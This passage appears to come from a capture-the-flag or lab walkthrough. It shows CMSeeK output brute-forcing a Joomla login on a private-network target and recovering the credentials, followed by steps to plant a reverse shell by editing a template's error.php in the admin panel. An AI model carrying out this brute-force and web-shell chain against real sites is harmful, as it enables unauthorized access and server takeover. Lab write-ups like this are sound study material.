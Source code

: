 
	 [+]  Joomla Bruteforce Module  [+] 

	Enter target site (https://example.tld): http://192.168.1.1/joomla         
	[i] Checking for Joomla
	[*] Joomla Confirmed... Confirming form and getting token...
	[~] Enter Usernames with coma as separation without any space (example: cris,harry): joomla

	[i] Bruteforcing User: joomla
	[*] Testing Password: Gothamlkyesed

	[*] Password found!
	 |
	 |--[username]--> joomla
	 |
	 |--[password]--> Gotham
	 |
	[*] Enjoy The Hunt!

	[*] Credentials stored at: /usr/share/cmseek/Result/192.168.1.1_joomla/bruteforce_result_joomla_.txt
	```
	- joomla:Gotham
9. Proceed to `http://192.168.1.1/joomla/administrator/index.php?option=com_templates`
10. Upload reverse shell by editing `/error.php` in template "protostar"
	![](images/Pasted%20image%2020220126043723.png)